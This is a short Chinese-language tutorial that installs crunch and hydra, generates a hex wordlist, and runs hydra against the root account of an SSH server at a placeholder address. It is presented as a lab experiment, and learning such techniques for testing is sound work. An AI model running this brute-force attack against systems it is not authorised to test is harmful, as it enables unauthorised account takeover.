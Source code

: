 # 暴力破解ssh密码

# 工具
1. crunch(password generator)
	密码生成器，原理很简单，直接dfs遍历所有可能的组合即可
```shell
# debian
apt install crunch
# mac
brew install crunch
```


2. hydra(brute force credentials)
	暴力破解工具
```shell
# debian
apt install hydra
# mac
brew install hydra
```

# 开始实验

1. 生产随机密码
```shell
# crunch <min-len> <max-len> [<charset string>]
#         最小长度	最大长度	密码所包含的字符
crunch 6 6 0123456789abcdef -o 6chars.txt
```
2. 开始破解尝试破解ssh
```shell
# -l username 用户名
# -t thread 线程数
hydra -l root -P passwords.txt -t 6 ssh://ip(x.x.x.x)
```
